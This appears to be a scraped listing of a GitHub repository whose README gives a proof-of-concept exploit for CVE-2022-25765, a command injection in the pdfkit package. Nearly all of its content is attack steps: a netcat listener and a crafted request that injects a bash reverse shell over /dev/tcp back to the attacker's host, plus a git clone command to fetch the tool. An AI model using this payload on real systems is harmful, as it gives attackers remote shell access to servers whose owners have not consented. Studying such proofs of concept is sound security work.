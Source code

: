 # PDFkit-CMD-Injection

CVE-2022-25765 pdfkit 0.8.6 command injection.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/lekosbelas](https://github.com/lekosbelas) |
| Url      | [https://github.com/lekosbelas/PDFkit-CMD-Injection](https://github.com/lekosbelas/PDFkit-CMD-Injection)                                               |
| Stars    | 0                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* 2022* 25765* cmd* command* cve* exploit* injection* pdfkit* rce

</details>

## Readme

# PDFkit-CMD-Injection 

### CVE-2022-25765 Detail

#### Description
The package pdfkit from 0.0.0 are vulnerable to Command Injection where the URL is not properly sanitized.



### PoC

#### Start a HTTP server
<pre>
1- python3 -m http.server 80
</pre>
#### Start a netcat listener
<pre>
2- nc -lnvp 'Target Port'
</pre>
#### Make a request 
<pre>
3- http://"TARGET_ADDRESS:Target PORT"//?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/"Target_ADRESS/LISTENING_PORT"<&1'`'}
</pre>



## Get the content

```
git clone https://github.com/lekosbelas/PDFkit-CMD-Injection
cd PDFkit-CMD-Injection
```

{% embed url="https://github.com/lekosbelas/PDFkit-CMD-Injection" %}

<figure><img src="https://avatars.githubusercontent.com/u/35641898?v=4" alt=""><figcaption><p>lekosbelas</p></figcaption></figure>
